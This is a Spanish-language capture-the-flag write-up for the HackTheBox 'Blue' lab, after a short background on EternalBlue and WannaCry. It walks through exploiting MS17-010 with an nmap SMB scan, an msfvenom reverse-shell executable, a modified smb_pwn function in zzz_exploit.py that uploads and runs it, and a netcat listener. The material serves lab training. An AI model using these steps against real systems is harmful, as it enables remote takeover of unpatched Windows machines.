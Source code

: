 #CVE-2017-0143 #nmapscripts

Se lo conoce como EternalBlue, MS17-010 o si no CVE-2017-0143
WannaCry fue un ransomware que se propagó en mayo de 2017 aprovechando la vulnerabilidad MS17-010 (EternalBlue). Infectaba computadoras con Windows y cifraba los archivos, exigiendo un rescate en Bitcoin. Se expandió rápidamente como un gusano, afectando miles de organizaciones en todo el mundo. Fue detenido parcialmente gracias al descubrimiento de un kill switch por un investigador.
Un **kill switch** (interruptor de apagado) es un mecanismo oculto en un malware que permite **detener su funcionamiento** si se cumple cierta condición. En el caso de WannaCry, era un dominio web que, si estaba registrado y respondía, hacía que el malware se detuviera. Un investigador lo descubrió por accidente, registró ese dominio, y sin querer **frenó la propagación global** del ransomware.

-----------
# Enumeracion

Vamos a ejecutar los [[NMAP Scripts]] que analizan vulnerabilidades sobre [[smb]]
```
nmap --script "smb-vuln*" -p445 10.10.10.40 -oN smbScan
```

![[Blue9.png]]
Como podemos ver, es vulnerable

--------
# Explotacion

Con [[git clone]] vamos a descargar el repositorio `git clone https://github.com/worawit/MS17-010`
Usando [[cd]] con el comando `cd MS17-010` entramos a carpeta del repositorio, listamos el contenido con [[ls]]
Y de todos estos archivos, vamos a usar solamente el *checker.py* y *zzz_exploit.py*

![[Blue10.png]]
Usando [[nvim]] abrimos el archivo *checker.py* usando el comando `nvim checker.py`

Vamos a poner de usuario *guest* que es lo que vimos vulnerable en uno de los escaneos de NMAP
![[Blue5.png]]

Y ahora con `python2-7 checker.py 10.10.10.40` Vemos que podemos usar los pipes 
![[Blue6.png]]
El pipe que nos interesa es el *lsarpc* por que es el mas completo, ya que nos deja ver usuarios, grupos, permisos ,etc


### Ya tenemos el canal de comunicacion elegido, que seria el pipe. Ahora vamos a hacer el archivo malioso que vamos a inyectar con [[msfvenom]]

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.16.5 lport=443 -f exe -o exploit.exe --platform windows
```

![[Blue11.png]]
Tenemos creado el archivo exploit.exe para inyectar y que nos envie la [[Reverse shell]]

### Tenemos que modificar el archivo *zzz_exploit.py*
Lo abrimos nuevamente con [[nvim]] usando el comando `nvim zzz_exploit.py`
![[Blue13.png]]
En username van a poner *guest* como hicimos anteriormente.

Y ahora van a ir a la siguiente linea, pueden buscar la funcion *smb_pwn* para encontrarla

Lo vamos a poner de la siguiente manera, como esta en la foto, tengan encuenta que les puede saltar un error por los espacios y tabulacion, asi que recomiendo que sigan mi formato. Y solamente cambien la ruta donde tienen el archivo y en todo caso el nombre del mismo
![[Blue14.png]]

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()

    #print('creating file c:\\pwned.txt on the target')
    #tid2 = smbConn.connectTree('C$')
    #fid2 = smbConn.createFile(tid2, '/pwned.txt')
    #smbConn.closeFile(tid2, fid2)
    #smbConn.disconnectTree(tid2)
    smb_send_file(smbConn, '/home/bunzo/Desktop/Blue/content/MS17-010/exploit.exe', 'C', '/exploit.exe')
    service_exec(conn, r'cmd /c c:\\exploit.exe')
    #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
    #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
    # Note: there are many methods to get shell over SMB admin session
    # a simple method to get shell (but easily to be detected by AV) is
    # executing binary generated by "msfvenom -f exe-service ..."
```


 Ahora solo nos falta ponernos en escucha con [[nc -nlvp 443]] y ejecutar el exploit con `python2.7 zzz_exploit.py 10.10.10.40 lsarpc`

![[Blue15.png]]

![[Blue12.png]]
